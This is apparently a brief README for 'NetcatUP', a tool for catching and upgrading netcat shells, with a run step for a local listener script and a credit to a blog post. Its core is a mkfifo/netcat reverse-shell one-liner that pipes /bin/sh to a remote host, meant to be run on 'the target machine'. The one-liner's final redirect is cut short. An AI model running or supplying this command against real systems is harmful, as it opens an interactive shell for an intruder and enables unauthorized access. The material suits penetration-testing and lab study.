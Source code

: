 # NetcatUP


run `./netcatup.sh port`  
run `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc targetip port >/tmp/` on the target machine  
You should now have a fully interactive shell with bash history and tab completion  

credits: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

